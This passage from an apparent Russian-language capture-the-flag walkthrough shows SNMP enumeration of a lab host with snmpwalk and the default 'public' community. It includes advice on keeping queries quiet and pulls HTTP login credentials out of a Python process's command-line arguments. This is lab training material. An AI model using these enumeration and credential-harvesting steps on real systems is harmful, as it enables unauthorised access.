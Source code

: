 Вывод массивный, поэтому он был перенаправлен в файл для дальнейшей работы.

К слову: если бы нам нужно было оставаться более бесшумными, было бы рационально запросить у snmpwalk только ту информацию, *которая нам нужна*. Например, чтобы  получить список запущенных процессов, достаточно уточнить запрос опцией `hrSWRunName` (OID `1.3.6.1.2.1.25.4.2.1.2`):
```text
root@kali:~# snmpwalk -v 2c -c public 10.10.10.92 hrSWRunName
HOST-RESOURCES-MIB::hrSWRunName.1 = STRING: "systemd"
HOST-RESOURCES-MIB::hrSWRunName.2 = STRING: "kthreadd"
HOST-RESOURCES-MIB::hrSWRunName.4 = STRING: "kworker/0:0H"
HOST-RESOURCES-MIB::hrSWRunName.6 = STRING: "mm_percpu_wq"
HOST-RESOURCES-MIB::hrSWRunName.7 = STRING: "ksoftirqd/0"
HOST-RESOURCES-MIB::hrSWRunName.8 = STRING: "rcu_sched"
HOST-RESOURCES-MIB::hrSWRunName.9 = STRING: "rcu_bh"
HOST-RESOURCES-MIB::hrSWRunName.10 = STRING: "migration/0"
HOST-RESOURCES-MIB::hrSWRunName.11 = STRING: "watchdog/0"
HOST-RESOURCES-MIB::hrSWRunName.12 = STRING: "cpuhp/0"
HOST-RESOURCES-MIB::hrSWRunName.13 = STRING: "kdevtmpfs"
HOST-RESOURCES-MIB::hrSWRunName.14 = STRING: "netns"
HOST-RESOURCES-MIB::hrSWRunName.15 = STRING: "rcu_tasks_kthre"
HOST-RESOURCES-MIB::hrSWRunName.16 = STRING: "kauditd"
HOST-RESOURCES-MIB::hrSWRunName.17 = STRING: "khungtaskd"
HOST-RESOURCES-MIB::hrSWRunName.18 = STRING: "oom_reaper"
HOST-RESOURCES-MIB::hrSWRunName.19 = STRING: "writeback"
HOST-RESOURCES-MIB::hrSWRunName.20 = STRING: "kcompactd0"
HOST-RESOURCES-MIB::hrSWRunName.21 = STRING: "ksmd"
HOST-RESOURCES-MIB::hrSWRunName.22 = STRING: "khugepaged"
...
```

#### Список запущенных процессов
Вспомним, что мы видели простой Python-HTTP-сервер на 3366-м TCP порту, запрашивающий авторизацию. Креды для такого сервака подаются питону в качестве аргументов командной строки в виде `SimpleHTTPAuthServer [-h] [--dir DIR] [--https] port key`, поэтому мы можем попробовать отыскать их в нашем дампе.

Для этого среди записей типа `hrSWRunName` найдем процесс Python'а:
```text
root@kali:~# cat snmpwalk.out | grep hrSWRunName | grep python
HOST-RESOURCES-MIB::hrSWRunName.593 = STRING: "python"
```

И далее по полученному индексу `593` выведем все, что относится к этому процессу в табличке `hrSWRunTable`:
```text
root@kali:~# cat snmpwalk.out | grep 593
HOST-RESOURCES-MIB::hrSWRunIndex.593 = INTEGER: 593
HOST-RESOURCES-MIB::hrSWRunName.593 = STRING: "python"
HOST-RESOURCES-MIB::hrSWRunID.593 = OID: SNMPv2-SMI::zeroDotZero
HOST-RESOURCES-MIB::hrSWRunPath.593 = STRING: "python"
HOST-RESOURCES-MIB::hrSWRunParameters.593 = STRING: "-m SimpleHTTPAuthServer 3366 loki:godofmischiefisloki --dir /home/loki/hosted/"
HOST-RESOURCES-MIB::hrSWRunType.593 = INTEGER: application(4)
HOST-RESOURCES-MIB::hrSWRunStatus.593 = INTEGER: runnable(2)
HOST-RESOURCES-MIB::hrSWRunPerfCPU.593 = INTEGER: 1129
HOST-RESOURCES-MIB::hrSWRunPerfMem.593 = INTEGER: 13852 KBytes
HOST-RESOURCES-MIB::hrSWInstalledIndex.593 = INTEGER: 593
HOST-RESOURCES-MIB::hrSWInstalledName.593 = STRING: "tzdata-2018d-1"
HOST-RESOURCES-MIB::hrSWInstalledID.593 = OID: SNMPv2-SMI::zeroDotZero
HOST-RESOURCES-MIB::hrSWInstalledType.593 = INTEGER: application(4)
HOST-RESOURCES-MIB::hrSWInstalledDate.593 = STRING: 0-1-1,0:0:0.0
```


[//]: # (2019-08-20)